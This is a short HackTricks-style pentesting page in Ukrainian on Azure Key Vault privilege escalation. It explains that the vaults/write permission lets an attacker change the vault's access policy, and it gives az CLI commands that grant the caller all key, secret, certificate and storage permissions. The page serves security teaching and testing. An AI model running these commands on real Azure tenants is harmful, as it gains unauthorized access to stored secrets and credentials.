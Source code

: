 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

Для отримання додаткової інформації про цю службу перегляньте:

{{#ref}}
../az-services/keyvault.md
{{#endref}}

### Microsoft.KeyVault/vaults/write

Зловмисник з цим дозволом зможе змінити політику сховища ключів (сховище ключів повинно використовувати політики доступу замість RBAC).
```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
--name <vault-name> \
--object-id <your-object-id> \
--key-permissions all \
--secret-permissions all \
--certificate-permissions all \
--storage-permissions all
```
{{#include ../../../banners/hacktricks-training.md}}
